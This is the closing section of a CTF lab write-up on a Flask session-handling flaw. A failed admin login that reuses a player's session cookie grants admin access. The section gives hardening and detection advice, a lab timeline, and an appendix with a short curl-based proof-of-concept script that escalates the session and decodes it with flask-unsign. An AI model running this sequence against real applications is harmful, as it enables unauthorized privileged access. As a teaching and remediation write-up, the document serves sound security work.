 **Deep fixes / hardening:**

- Implement server-side checks for all privileged actions (do not rely only on session content sent by the client).
- Introduce secure session handling patterns: rotate session identifiers on login, enforce HttpOnly and Secure flags (already HttpOnly present; ensure Secure when using HTTPS), set `SameSite` attribute appropriately.
- Add rate-limiting and account lockout policies for repeated failed attempts (with caution in CTF / dev environments).

**Detection / monitoring:**

- Log unusual sequences of events: session authenticated then username changed in same session; multiple failed logins reusing same session cookie.
- Generate alerts for login attempts that modify session identity without a full re-authentication (and for failed login followed by immediate admin resource access).

---

## Timeline & disclosure

- Discovered: 2025-10-12 (during CTF lab playthrough).
- Organizer notified: N/A (lab environment) — if this were production, disclose to application owner immediately and provide proof-of-concept.
- Patch status: not applicable in lab; remediation steps provided above.

---

## Appendix

### Full PoC script (bash)

```bash
# 1) Login as player1 and save cookie
curl -k -c cj_player1.txt -X POST 'http://HOST/login' -F 'username=player1' -F 'password=password123' -i

# 2) Reuse the same cookie to perform a failed admin login
curl -k -b cj_player1.txt -c cj_player1.txt -X POST 'http://HOST/login' -F 'username=admin' -F 'password=wrong' -i

# 3) Confirm escalation and view dashboard
curl -k -b cj_player1.txt 'http://HOST/dashboard' -i | sed -n '1,200p'

# 4) decode session payload locally (optional)
SESSION=$(awk '/\tsession\t/ {print $7}' cj_player1.txt | tail -n1)
flask-unsign --decode --cookie "$SESSION"

```

### Helpful references

- Flask session management and `itsdangerous` documentation
- OWASP: Session Management Cheat Sheet
- OWASP: Authentication Cheat Sheet

---